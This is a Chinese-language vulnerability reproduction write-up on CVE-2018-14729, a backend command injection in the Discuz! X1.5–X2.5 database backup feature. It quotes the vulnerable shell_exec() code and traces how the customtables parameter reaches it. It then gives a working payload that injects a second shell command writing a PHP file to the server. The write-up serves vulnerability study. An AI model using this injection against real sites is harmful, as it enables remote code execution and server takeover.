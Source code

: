 ```yaml
---
title: "（CVE-2018-14729）Discuz! X1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell"
id: zhfly2883
---
```


# （CVE-2018-14729）Discuz!X 1.5 ~ X2.5 后台数据库备份功能远程命令执行 Getshell

## 一、漏洞简介

## 二、漏洞影响

Discuz! X1.5-2.5

## 三、复现过程

### 漏洞分析

需要注意的是这个漏洞其实是需要登录后台的，并且能有数据库备份权限，所以比较鸡肋。

我这边是用Discuz! 2.5完成漏洞复现的，并用此进行漏洞分析的。

漏洞点在：

```
source/admincp/admincp_db.php 
```

第296行：

```
@shell_exec($mysqlbin.'mysqldump --force --quick '.($db->version() > '4.1' ? '--skip-opt --create-options' : '-all').' --add-drop-table'.($_GET['extendins'] == 1 ? ' --extended-insert' : '').''.($db->version() > '4.1' && $_GET['sqlcompat'] == 'MYSQL40' ? ' --compatible=mysql40' : '').' --host="'.$dbhost.($dbport ? (is_numeric($dbport) ? ' --port='.$dbport : ' --socket="'.$dbport.'"') : '').'" --user="'.$dbuser.'" --password="'.$dbpw.'" "'.$dbname.'" '.$tablesstr.' > '.$dumpfile); 
```

在shell_exec()函数中可控点在$tablesstr，向上看到第281行：

```
$tablesstr = '';
foreach($tables as $table) {
    $tablesstr .= '"'.$table.'" ';
} 
```

跟一下$table的获取流程，在上面的第143行：

```
if($_GET['type'] == 'discuz' || $_GET['type'] == 'discuz_uc') 
{
    $tables = arraykeys2(fetchtablelist($tablepre), 'Name');
} 
elseif($_GET['type'] == 'custom') 
{
    $tables = array();
    if(empty($_GET['setup'])) 
    {
        $tables = C::t('common_setting')->fetch('custombackup', true);
    } 
    else 
    {
        C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
        $tables = & $_GET['customtables'];
    }
    if( !is_array($tables) || empty($tables)) 
    {
        cpmsg('database_export_custom_invalid', '', 'error');
    }
} 
```

可以看到：

```
C::t('common_setting')->update('custombackup', empty($_GET['customtables'])? '' : $_GET['customtables']);
$tables = & $_GET['customtables']; 
```

首先会从$_GET的数组中获取customtables字段的内容，判断内容是否为空，不为空则将从外部获取到的customtables字段内容写入common_setting表的skey=custombackup的svalue字段，写入过程中会将这个字段做序列化存储：

![image](../img/5620df6d067f655350f8ab3329a0c0a7.png)

之后再将该值赋给$tables。

至此可以看到漏洞产生的原因是由于shell_exec()中的$tablesstr可控，导致代码注入。

### 漏洞复现

首先抓个包

![image](../img/8888ba7d15cb455769918c07dc18bf48.png)

这样可以抓到符合我们条件的请求包。

![image](../img/1a7864c17bfac25a00c570d7f745248d.png)

接下来只需要将customtables的内容更改一下就可以造成命令执行了：

```
customtables[] = pre_common_admincp_cmenu">aaa; echo '<?php phpinfo(); ?>' > phpinfo.php # 
```

![image](../img/817d45781aa8982ee79782a77cacd93b.png)

![image](../img/3686b0c1bcfe6a1d2ef3bef0643230d5.png)

效果为：

![image](../img/a0a2ba745b07981d660e1fad06fa2d4e.png)

## 参考链接

> https://github.com/FoolMitAh/CVE-2018-14729/blob/master/Discuz_backend_getshell.md

> https://www.anquanke.com/post/id/158270